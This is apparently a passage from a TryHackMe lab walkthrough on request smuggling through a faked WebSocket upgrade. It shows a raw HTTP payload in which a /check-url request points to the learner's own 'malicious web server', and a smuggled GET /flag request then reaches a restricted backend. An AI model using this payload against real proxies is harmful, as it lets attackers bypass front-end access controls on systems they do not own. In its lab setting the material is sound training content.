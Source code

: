 ```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: 10.10.235.194:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.194:8002

```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp (note that you need to add two newlines at the end of your payload in Burp):

![Smuggling a request through a fake websocket connection](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/4c210998e9e3ff3cd2bbad3ed5d92fe7.png)

Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.
